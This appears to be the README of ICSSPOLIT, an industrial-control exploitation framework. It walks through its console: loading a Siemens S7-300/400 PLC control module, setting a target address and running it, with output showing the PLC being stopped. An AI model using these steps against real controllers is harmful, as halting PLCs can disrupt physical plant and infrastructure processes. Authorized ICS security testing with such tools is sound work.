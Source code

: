         Note     : ICSSPOLIT is fork from routersploit at
                   https://github.com/reverse-shell/routersploit
        Dev Team : wenzhe zhu(dark-lbp)
        Version  : 0.1.0
        
        Exploits: 2 Scanners: 0 Creds: 13
        
        ICS Exploits:
            PLC: 2          ICS Switch: 0
            Software: 0
        
        isf >

## Exploits
    isf > use exploits/plcs/
    exploits/plcs/siemens/  exploits/plcs/vxworks/
    isf > use exploits/plcs/siemens/s7_300_400_plc_control
    exploits/plcs/siemens/s7_300_400_plc_control
    isf > use exploits/plcs/siemens/s7_300_400_plc_control
    isf (S7-300/400 PLC Control) >
    
You can use the tab key for completion.


## Options
### Display module options:
    isf (S7-300/400 PLC Control) > show options
    
    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target address e.g. 192.168.1.1
       port       102                  Target Port
    
    
    Module options:
    
       Name        Current settings     Description
       ----        ----------------     -----------
       slot        2                    CPU slot number.
       command     1                    Command 0:start plc, 1:stop plc.
    
    
    isf (S7-300/400 PLC Control) >
    
### Set options
    isf (S7-300/400 PLC Control) > set target 192.168.70.210
    [+] {'target': '192.168.70.210'}
    

## Run module
    isf (S7-300/400 PLC Control) > run
    [*] Running module...
    [+] Target is alive
    [*] Sending packet to target
    [*] Stop plc
    isf (S7-300/400 PLC Control) >
    